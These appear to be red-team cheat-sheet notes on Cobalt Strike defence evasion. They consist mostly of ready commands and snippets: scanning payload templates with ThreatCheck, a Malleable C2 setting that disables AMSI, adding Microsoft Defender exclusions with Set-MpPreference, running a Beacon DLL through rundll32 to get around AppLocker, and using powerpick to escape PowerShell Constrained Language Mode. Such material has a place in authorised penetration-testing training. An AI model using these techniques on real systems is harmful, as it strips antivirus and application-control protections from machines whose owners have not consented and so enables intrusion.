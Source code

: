 ###### <font style="color:#00b3ff">Resource Kit</font> 
```
- Scan template.x64.ps1 that is the template used in jump winrm64:

C:\>Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -e AMSI -f Tools\cobaltstrike\ResourceKit\template.x64.ps1
```

###### <font style="color:#00b3ff">AmsiScanBuffer</font> 
```
- The Malleable Command & Control section goes into more depth on specifically what Malleable C2 is and how to customise it. To enable the amsi_disable directive, add the following to your profile:

		post-ex {
				    set amsi_disable "true";
				}
```

###### <font style="color:#00b3ff">Exclude files from AV scan</font> 
```
- Get-MpPreference can be used to list the current exclusions.  This can be done locally, or remotely using remote-exec:
	beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*

- If the exclusions are configured via GPO and you can find the corresponding Registry.pol file, you can read them with Parse-PolFile:
	PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

- add your own exclusions:
	Set-MpPreference -ExclusionPath "<path>"
```

###### <font style="color:#00b3ff">AppLocker</font> 
```
- The default rule sets are quite trivial to bypass in a number of ways:
	Executing untrusted code via trusts LOLBAS's.
	Finding writeable directories within "trusted" paths.
	By default, AppLocker is not even applied to Administrator

- Cobalt Strike can output Beacon to a DLL that can be run with rundll32:
  C:\>C:\Windows\System32\rundll32.exe
  C:\Users\Administrator\Desktop\beacon.dll,StartW
```

###### <font style="color:#00b3ff">PowerShell Constrained Language Mode</font> 
```
- $ExecutionContext.SessionState.LanguageMode will show the language mode of the executing process:
	beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode

- if we find an AppLocker bypass rule in order to execute a Beacon, powerpick can be used to execute post-ex tooling outside of CLM. powerpick is also compatible with powershell-import:
	beacon> run hostname
	beacon> powerpick $ExecutionContext.SessionState.LanguageMode
	beacon> powerpick [math]::Pow(2,10)
```
